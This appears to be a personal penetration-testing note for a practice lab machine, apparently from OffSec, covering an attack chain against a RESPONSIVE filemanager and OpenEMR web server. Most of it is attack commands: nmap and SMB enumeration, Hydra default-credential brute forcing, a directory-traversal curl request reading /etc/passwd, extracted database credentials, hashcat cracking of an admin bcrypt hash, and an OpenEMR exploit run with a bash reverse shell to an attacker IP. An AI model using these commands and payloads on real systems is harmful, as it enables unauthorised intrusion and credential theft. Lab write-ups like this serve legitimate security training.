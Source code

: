 ### Enumeration
```
IP=192.168.163.145
sudo nmap -sU $IP
sudo nmap -p- -vv $IP
sudo nmap -p80,445,3306 -A $IP
```
### Ports 
- 80
- 445
- 3306
### Foothold
- 21
	- ftp anonymous@$IP
	- `hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt ftp://$IP
- RPC/ SMB
	- enum4linux -U $IP
- 445
	- smbclient -N -L //$IP
		- anonymous login success
		- shares
			- print$
			- docs
			- IPC$
	- nmap --script smb-vuln* -p135,139,445 $IP
		- vulnerable to dos
- 3306
	- `hydra -C /usr/share/seclists/Passwords/Default-Credentials/mysql-betterdefaultpasslist.txt mysql://$IP`
- 80
	- Default landing page
		- ![[Pasted image 20240716112915.png]]
		- ![[Pasted image 20240716113255.png]]
		- ![[Pasted image 20240716113309.png]]
		- Added apex.offsec to /etc/hosts
	- Employees
		- Walter White wwalter@apex.offsec
		- Sarah Jhonson jsarah@apex.offsec
		- William Anderson  awilliam@apex.offsec
		- Amanda Jepson  jamanda@apex.offsec
	- Versions
		- RESPONSIVE filemanager v.9.13.4
			- directory traversal exploit db 49359
				- change name to exploit.py
				- python3 exploit.py http://192.168.163.145 PHPSESSID=2ddat6a28njg2encbfq83b4326 /etc/passwd
				- Works
				- Change output directory to /Documents
				- python3 exploit.py http://192.168.163.145 PHPSESSID=2ddat6a28njg2encbfq83b4326 /var/www/openemr/sites/default/sqlconf.php
				- We see the sqlconf.php in smb share docs
				- Download the sqlconf.php
					- user:openemr
					- pass:C78maEQUIEuQ
			- exploit db 45987
				- `curl -X POST -d "path=../../../../../../../etc/passwd" -H "Cookie: PHPSESSID=2ddat6a28njg2encbfq83b4326" "http://192.168.163.145/filemanager/ajax_calls.php?action=get_file&sub_action=edit&preview_mode=text"`
				- outputs /etc/passwd
		- openemr Version Number: v5.0.1 (1)
			- exploit db 45161
			- `python2 45161.py http://192.168.163.145/openemr -u admin -p thedoctor -c 'bash -i >& /dev/tcp/192.168.45.195/22 0>&1' Gives rce
	- Directory Brute force
		- dirsearch -u http://$IP
			- /assets/
			- /filemanager/
				- ![[Pasted image 20240716113652.png]]
				- Tried uploading php
					- ![[Pasted image 20240716114030.png]]
				- /upload.php
			- /source/
				- openemr feature.pdf
					- talks about /openemr
			- /thumbs/
			- /openemer
				- ![[Pasted image 20240716120127.png]]
				- openemr 5.0.2.1 RCE
					- exploit db 49784
				- admin:thedoctor
				- Successful login
		- ffuf -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -u http://$IP/FUZZ
		- Found directories
- 3306
	- mysql -u openemr -pC78maEQUIEuQ -h $IP
		- Allows us to connect
		- dbs
			- openemr
				- users
					- admin:NoLongerUsed
					- other accounts are no login
				- users_secure
					- `admin:$2a$05$bJcIfCBjN5Fuh0K9qfoe0eRJqMdM49sWvuSGqv84VMMAkLgkK8XnC`
					- `salt:$2a$05$bJcIfCBjN5Fuh0K9qfoe0n$
					- hashcat -m 3200 hash /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
						- thedoctor
			- information_schema
### PE
#### Linux
- www-data
	- id
		- uid=33(www-data) gid=33(www-data) groups=33(www-data)
	- sudo -l
		- needs password
	- uname -a
	- getcap -r / 2>/dev/null
	- suid
		- find / -type f -perm -04000 -ls 2>/dev/null
	- Users with console
	- netstat -ano
	- linpeas
### Credentials
- openemr:C78maEQUIEuQ
- admin:thedoctor
### Lessons Learned